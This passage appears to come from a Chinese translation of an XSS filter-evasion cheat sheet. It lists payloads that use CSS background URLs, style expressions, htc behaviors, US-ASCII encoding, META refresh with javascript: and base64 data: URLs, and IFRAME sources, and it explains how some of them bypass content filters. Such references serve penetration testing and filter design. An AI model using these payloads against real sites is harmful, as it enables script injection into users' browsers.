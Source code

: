 <pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span>&gt;</span><span class="css"><span class="hljs-selector-class">.XSS</span>{<span class="hljs-attribute">background-image</span>:<span class="hljs-built_in">url</span>(<span class="hljs-string">"javascript:alert('XSS')"</span>);}</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span><span class="hljs-tag">&lt;<span class="hljs-name">A</span> <span class="hljs-attr">class</span>=<span class="hljs-string">"XSS"</span>&gt;</span><span class="hljs-tag">&lt;/<span class="hljs-name">A</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t58"></a><a name="t58"></a>使用background的style标签</h2>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">STYLE</span> <span class="hljs-attr">type</span>=<span class="hljs-string">"text/css"</span>&gt;</span><span class="css"><span class="hljs-selector-tag">BODY</span>{<span class="hljs-attribute">background</span>:<span class="hljs-built_in">url</span>(<span class="hljs-string">"javascript:alert('XSS')"</span>)}</span><span class="hljs-tag">&lt;/<span class="hljs-name">STYLE</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t59"></a><a name="t59"></a>匿名html标签的属性</h2>
<p>IE6.0 和使用了ix渲染引擎的Netscape 8.1+ 并不会关心你建立的html标签存在与否。只要它是以尖括号以及字符开始的。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">XSS</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"xss:expression(alert('XSS'))"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t60"></a><a name="t60"></a>本地 htc 文件</h2>
<p>它有一个小的不同与上面的xss向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行javascript代码实现xss。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">XSS</span> <span class="hljs-attr">STYLE</span>=<span class="hljs-string">"behavior: url(xss.htc);"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t61"></a><a name="t61"></a>US-ASCII编码</h2>
<p>US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的ASCII 编码用7bits代替8bits. 这个xss可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII编码方式。或者你自己去设置这种编码方式 。它是有用的去绕过web应用防火墙xss过滤比服务器端的过滤。Apache的 Tomcat是众所周知的 使用US-ASCII编码传输协议。</p>
<pre><code class="hljs">¼script¾alert(¢XSS¢)¼/script¾
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t62"></a><a name="t62"></a>META</h2>
<p>关于meta refresh比较奇怪的是他并不是发送一个刷新请求头。因此他通常用于不需要引用url的攻击。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">META</span> <span class="hljs-attr">HTTP-EQUIV</span>=<span class="hljs-string">"refresh"</span> <span class="hljs-attr">CONTENT</span>=<span class="hljs-string">"0;url=javascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t63"></a><a name="t63"></a>META using data</h2>
<p>URL指令方案，它是非常的不错因为赢没有明显的SCRIPT单词或是JavaScript 指令出现，因为它使用了base64 编码。请查看 <a href="https://tools.ietf.org/html/rfc2397" rel="nofollow">RFC 2397</a>了解更多信息或是编码你的代码。你也可以使用 <a href="http://ha.ckers.org/xsscalc.html" rel="nofollow">XSS calculator</a>去编码你的html或是javascript代码到base64位。</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">META</span> <span class="hljs-attr">HTTP-EQUIV</span>=<span class="hljs-string">"refresh"</span> <span class="hljs-attr">CONTENT</span>=<span class="hljs-string">"0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t64"></a><a name="t64"></a>额外url参数的META</h2>
<p>如果当前网页试图去查找URL参数是否以"http://" 开始，你可以用下列技术绕过（被 Moritz Naumann提出）</p>
<pre><code class="hljs xml"><span class="hljs-tag">&lt;<span class="hljs-name">META</span> <span class="hljs-attr">HTTP-EQUIV</span>=<span class="hljs-string">"refresh"</span> <span class="hljs-attr">CONTENT</span>=<span class="hljs-string">"0; URL=http://;URL=javascript:alert('XSS');"</span>&gt;</span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t65"></a><a name="t65"></a>IFRAME</h2>
<p>如果一个iframes被允许，那么同时可能会存在大量其他xss问题</p>
<pre><code class="hljs javascript">&lt;IFRAME SRC=<span class="hljs-string">"javascript:alert('XSS');"</span>&gt;<span class="xml"><span class="hljs-tag">&lt;/<span class="hljs-name">IFRAME</span>&gt;</span></span>
</code><div class="hljs-button {2}" data-title="复制" onclick="hljs.copyCode(event)"></div></pre>
<hr><h2><a name="t66"></a><a name="t66"></a>IFRAME 基于事件</h2>
<p>IFrames或其他元素可以使用事件如下（提出被 David Cross）</p>